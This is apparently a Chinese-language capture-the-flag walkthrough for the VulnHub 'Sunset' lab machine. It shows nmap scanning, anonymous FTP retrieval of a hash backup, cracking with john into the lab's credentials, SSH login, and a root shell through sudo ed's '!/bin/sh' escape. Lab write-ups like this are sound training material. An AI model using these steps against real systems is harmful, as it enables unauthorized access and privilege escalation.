








# Sunset

## 环境

虚拟机平台：Oracle VM VirtualBox

攻击机：Kali（IP：192.168.56.102）

靶机：Sunset（IP：192.168.56.103）

下载：https://www.vulnhub.com/entry/sunset-1,339/

## Let's go

```
nmap -A 192.168.56.103
```



> **检测到允许匿名登录，我们进行尝试**

```
ftp
open 192.168.56.103
anonymous			  # 密码为空
ls
get backup			  # 下载backup
bye
```



> **查看文件发现五个用户的哈希，我们使用john破解**

```
cat backup		# 将哈希写入hash
vim hash		# 靶机名sunset,所有我将sunset写在首行
john hash
```





> **得到用户 'sunset' ，密码 'cheer14'，我们进行SSH登录**

```
ssh sunset@192.168.56.103
```



```
# 发现哈希，然而好像没什么用
sudo -l
```



> **搜索发现ed命令是文本编辑器，我们可以通过!/bin/sh提权**



```
sudo /usr/bin/ed
!/bin/sh
cd /root
cat flag.txt
```

